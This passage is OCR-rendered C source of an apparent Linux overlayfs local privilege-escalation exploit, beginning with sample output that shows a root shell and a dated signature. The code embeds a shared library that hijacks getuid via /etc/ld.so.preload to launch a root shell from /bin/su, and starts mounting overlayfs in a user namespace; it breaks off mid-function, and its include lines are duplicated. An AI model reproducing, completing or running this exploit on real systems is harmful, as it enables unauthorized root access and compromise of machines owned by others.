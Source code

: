 ```c
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# id
uid=0(root) gid=0(root) groups=0(root),24(cdrom),30(dip),46(plugdev),1000(user)

greets to beist & kaliman
2015-05-24
%rebel%
*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*
*/

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sched.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <sys/mount.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sched.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <sys/mount.h>
#include <sys/types.h>
#include <signal.h>
#include <fcntl.h>
#include <string.h>
#include <linux/sched.h>

#define LIB "#include <unistd.h>\n\nuid_t(*_real_getuid) (void);\nchar path[128];\n\nuid_t\ngetuid(void)\n{\n_real_getuid = (uid_t(*)(void)) dlsym((void *) -1, \"getuid\");\nreadlink(\"/proc/self/exe\", (char *) &path, 128);\nif(geteuid() == 0 && !strcmp(path, \"/bin/su\")) {\nunlink(\"/etc/ld.so.preload\");unlink(\"/tmp/ofs-lib.so\");\nsetresuid(0, 0, 0);\nsetresgid(0, 0, 0);\nexecle(\"/bin/sh\", \"sh\", \"-i\", NULL, NULL);\n}\n    return _real_getuid();\n}\n"

static char child_stack[1024*1024];

static int
child_exec(void *stuff)
{
    char *file;
    system("rm -rf /tmp/ns_sploit");
    mkdir("/tmp/ns_sploit", 0777);
    mkdir("/tmp/ns_sploit/work", 0777);
    mkdir("/tmp/ns_sploit/upper",0777);
    mkdir("/tmp/ns_sploit/o",0777);

    fprintf(stderr,"mount #1\n");
    if (mount("overlay", "/tmp/ns_sploit/o", "overlayfs", MS_MGC_VAL, "lowerdir=/proc/sys/kernel,upperdir=/tmp/ns_sploit/upper") != 0) {
// workdir= and "overlay" is needed on newer kernels, also can't use /proc as lower
        if (mount("overlay", "/tmp/ns_sploit/o", "overlay", MS_MGC_VAL, "lowerdir=/sys/kernel/security/apparmor,upperdir=/tmp/ns_sploit/upper,workdir=/tmp/ns_sploit/work") != 0) {
            fprintf(stderr, "no FS_USERNS_MOUNT for overlayfs on this kernel\n");
            exit(-1);
        }
        file = ".access";
```
